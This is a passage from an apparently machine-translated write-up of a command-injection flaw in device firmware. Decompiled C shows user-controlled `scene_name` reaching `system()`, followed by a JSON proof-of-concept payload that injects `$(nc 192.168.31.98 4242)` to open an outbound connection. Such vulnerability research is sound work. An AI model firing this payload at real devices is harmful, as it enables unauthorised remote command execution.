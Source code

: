 ```
 
        // Here, an attempt of escaping `arg` to try to avoid command injections 
        sprintf(final_command, "%s '%s'", cmd, arg);
 
        // The final command is then executed with `system()`
        ret = run_cmd(final_command);
 
        free(final_command);
    }
    return ret;
}
 
int32_t feedPush(scene_struct* scene)
{
    json_object* new_dupe = json_object_new_object();
    json_object_object_add(new_dupe, "type", json_object_new_int(5));
    json_object* new_obj = json_object_new_object();
 
    // `scene_name` is user controlled
    json_object_object_add(new_obj, "name", json_object_new_string(scene->scene_name));
    
    [...]
    json_object_object_add(new_dupe, "data", new_obj);
 
    // user controlled data is duplicated and stringified
    char* duplicate_data = strdup(json_object_to_json_string(new_dupe));
 
    int32_t v0_6 = json_object_put(new_dupe);
    if (duplicate_data == 0)
    {
        return v0_6;
    }
 
    // `duplicate_data` is directly injected into `system()`
    run_cmd_arg("/usr/sbin/feedPush", duplicate_data);
    return free(duplicate_data);
}
```  
  
  
run_cmd_arg我们可以使用一个简单的技巧 ( )轻松转义引号$(shell command)并注入scene_name.为了 PoC 这个漏洞，我们可以使用这两个有效负载（同样，与之前的类似）：  
  
  
第一个有效载荷  
  
```
{
    "command":"scene_setting",
    // Command Injection - making an exterior connection
    "name":"'$(nc 192.168.31.98 4242)'",
    [...] // same as before
}
```  
  